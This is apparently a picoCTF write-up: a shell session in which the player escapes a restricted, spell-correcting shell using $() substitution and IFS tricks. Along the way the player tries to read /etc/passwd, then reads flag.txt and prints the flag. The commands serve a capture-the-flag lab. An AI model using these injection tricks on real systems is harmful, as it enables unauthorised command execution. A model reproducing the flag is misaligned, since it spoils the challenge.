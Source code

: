 Luiscat02-picoctf@webshell:/$ ssh -p 51633 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:51633 ([13.59.203.175]:51633)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:51633' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls
Is 
sh: 1: Is: not found
Special$ $(uname)
$(uname) 
sh: 1: Linux: not found
Special$ $(ls)
$(ls) 
sh: 1: blargh: not found
Special$ &(ls -l)                    
Pals all 
sh: 1: Pals: not found
Special$ IFS=];b=catl/etc/passwd:$b
IFS=];b=catl/etc/passwd:$b 
Special$ $(IFS=];b=ls]blargh;$b)
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $/IFS=];b=cat]blargh/flag.txt;$b)
$/IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: Syntax error: ")" unexpected
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
Special$ 

Referencias
https://www.youtube.com/watch?v=aF6UIFJKCic&pp=ygUQRXNwZWNpYWwgcGljb2N0Zg%3D%3D
